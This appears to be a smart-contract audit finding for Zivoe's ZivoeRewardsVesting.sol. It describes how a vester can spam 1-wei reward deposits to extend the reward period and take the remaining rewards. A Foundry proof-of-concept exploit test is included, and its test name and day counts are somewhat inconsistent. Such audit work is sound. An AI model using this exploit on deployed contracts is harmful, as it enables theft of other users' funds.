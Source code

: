Mini Rouge Snail

high

# Malicious vester can steal rewards in `ZivoeRewardsVesting.sol`

## Summary
The `ZivoeRewardsVesting.sol` contract is susceptible to rewards getting stolen by a malicious vester.

A tested scenarios under which this can happen

Malicious Vester spams the last reward distribution period by calling [`ZivoeRewardsVesting::depositReward(...)`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352) to add a reward of `1 wei` at least twice a day or every hour to push the `periodEnd` beyond the end of the vesting period, if at the end of the vesting period all vesters call [`fullWithdraw()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L370-L373) to exit/close their vested positions there will be undistributed reward remaining in the contract with no way to withdraw

## Vulnerability Detail
- The last reward is added for a 360 day vesting period on the 331st day,
- sam the malicious vester can start calling [`ZivoeRewardsVesting::depositReward(...)`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352) at least twice a day with `1 wei` of each reward asset (for example DAI) to push the new period finish forward and thus extend the distribution time.
- On day 361st day all vesters except sam withdraw completely and with `rewardData[_rewardsToken].periodFinish` still at leat 2 week far ahead, the remaining `rewardToken` is claimed by sam alone .
- sam withdraws after 3 weeks after he has received all the rewards
- This is profitable for sam because he may have had the least vested position.


This test below shows that a malicious user can steal the last `ZivoeRewardsVesting` reward distribution after ensuring that users will not get their full reward and the undistributed reward will be claimed by hiim alone.

Add the test case below to the `Test_ZivoeRewardsVesting.sol` and run 
`forge test --mt test_ZivoeRewardsVesting_Rewards_Are_Stuck --rpc-url https://rpc.ankr.com/eth -vv`
you can use your own RPC url

```solidity
    function test_ZivoeRewardsVesting_Rewards_Can_Be_Stolen() public {

        // sam, sue, sal, sid, jim, joe, jon, jen claim their airdrop and begin vesting
        (,, uint256 _ZVE_Vested_SAM) = sam.claimAirdrop(address(ITO), address(sam));
        (,, uint256 _ZVE_Vested_SUE) = sue.claimAirdrop(address(ITO), address(sue));
        (,, uint256 _ZVE_Vested_SAL) = sal.claimAirdrop(address(ITO), address(sal));
        (,, uint256 _ZVE_Vested_SID) = sid.claimAirdrop(address(ITO), address(sid));
        (,, uint256 _ZVE_Vested_JIM) = jim.claimAirdrop(address(ITO), address(jim));
        (,, uint256 _ZVE_Vested_JOE) = joe.claimAirdrop(address(ITO), address(joe));
        (,, uint256 _ZVE_Vested_JON) = jon.claimAirdrop(address(ITO), address(jon));
        (,, uint256 _ZVE_Vested_JEN) = jen.claimAirdrop(address(ITO), address(jen));

        assertEq(_ZVE_Vested_SAM, vestZVE.balanceOf(address(sam)));


        emit log("First reward is deposited");

        uint256 deposit = uint256(1_000_000 ether);

        // deposit 1_000_000DAI rewards
        depositReward_DAI(address(vestZVE), deposit);
        // 30 days up
        hevm.warp(block.timestamp + 30 days - 2);

        // all users withdraw fully (vest + reward) 
        assert(sam.try_fullWithdraw(address(vestZVE)));
        assert(sal.try_fullWithdraw(address(vestZVE)));
        assert(joe.try_fullWithdraw(address(vestZVE)));
        assert(jim.try_fullWithdraw(address(vestZVE)));
        assert(sue.try_fullWithdraw(address(vestZVE)));
        assert(sid.try_fullWithdraw(address(vestZVE)));
        assert(jon.try_fullWithdraw(address(vestZVE)));
        assert(jen.try_fullWithdraw(address(vestZVE)));

        // another reward of 1_000_000DAI is deposited at the end of 30 days 
        depositReward_DAI(address(vestZVE), deposit);

        // ... more rewards get added along the line

        // 129 days up
        hevm.warp(block.timestamp + 100 days - 2);

        uint256 rewardPerToken = vestZVE.rewardPerToken(address(DAI));
        emit log_named_decimal_uint("rewardPerToken", rewardPerToken,18);

        // all users withdraw fully (vest + reward) 
        assert(sam.try_fullWithdraw(address(vestZVE)));
        assert(sal.try_fullWithdraw(address(vestZVE)));
        assert(joe.try_fullWithdraw(address(vestZVE)));
        assert(jim.try_fullWithdraw(address(vestZVE)));
        assert(sue.try_fullWithdraw(address(vestZVE)));
        assert(sid.try_fullWithdraw(address(vestZVE)));
        assert(jon.try_fullWithdraw(address(vestZVE)));
        assert(jen.try_fullWithdraw(address(vestZVE)));

        emit log_named_decimal_uint("Dai Reward balance at day 330 before adding rewards", IERC20(address(DAI)).balanceOf(address(vestZVE)), 18);

        // 330 days up
        hevm.warp(block.timestamp + 200 days + 10);
        // last reward distribution is suppose to end at the end of 30 days coliding with the end of the vesting period
        depositReward_DAI(address(vestZVE), deposit);
        emit log_named_decimal_uint("Dai Reward balance at day 330", IERC20(address(DAI)).balanceOf(address(vestZVE)), 18);

        assertEq(vestZVE.lastTimeRewardApplicable(address(DAI)), block.timestamp);

        
        // malicious user adds 1 wei of DAI rewards every 12hours for the last 30 days of vesting
        for (uint8 i = 0; i < 60; i++) {
            
            hevm.warp(block.timestamp + 43200);
            // sam spams with 1 wei
            hevm.prank(address(sam));
            depositReward_DAI(address(vestZVE), 1 wei);
        }

				// 361 days up and vesting is complete
        hevm.warp(block.timestamp + 1 days);
        // vesting has ended and all vesters withdraw fully
        assert(sal.try_fullWithdraw(address(vestZVE)));
        assert(joe.try_fullWithdraw(address(vestZVE)));
        assert(jim.try_fullWithdraw(address(vestZVE)));
        assert(sue.try_fullWithdraw(address(vestZVE)));
        assert(sid.try_fullWithdraw(address(vestZVE)));
        assert(jon.try_fullWithdraw(address(vestZVE)));
        assert(jen.try_fullWithdraw(address(vestZVE)));
        

        hevm.warp(block.timestamp + 10 days);
        // vesters have completely exited vesting
        assertEq(vestZVE.amountWithdrawable(address(sal)), 0);
        assertEq(vestZVE.amountWithdrawable(address(joe)), 0);
        assertEq(vestZVE.amountWithdrawable(address(jim)), 0);
        assertEq(vestZVE.amountWithdrawable(address(sue)), 0);
        assertEq(vestZVE.amountWithdrawable(address(sid)), 0);
        assertEq(vestZVE.amountWithdrawable(address(jon)), 0);
        assertEq(vestZVE.amountWithdrawable(address(jen)), 0);
        // sam can still withdraw
        assertGt(vestZVE.amountWithdrawable(address(sam)), 0);

         emit log_named_decimal_uint("Dai Reward balance before sam withdraws (day 370)", IERC20(address(DAI)).balanceOf(address(vestZVE)), 18);

        hevm.warp(block.timestamp + 40 days);
        // only sam can withdraw and steal all the rewards
        assert(sam.try_fullWithdraw(address(vestZVE)));

        emit log_named_decimal_uint("Dai Reward balance after sam withdraws (day 410)", IERC20(address(DAI)).balanceOf(address(vestZVE)), 18);

    }
```


## Impact
This can lead to loss of funds as the vesters who participated in `ITO` would not be paid their reward in full only to be stolen by one vester.

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L370-L373

## Tool used

Foundry test, Manual review

## Recommendation
- Add a function to allow admin to withdraw unclaimed reward tokens only at the end of vesting period
- Increase minimum amount of reward that can be added to the vesting contract using to prevent malicious users from spaming the distribution
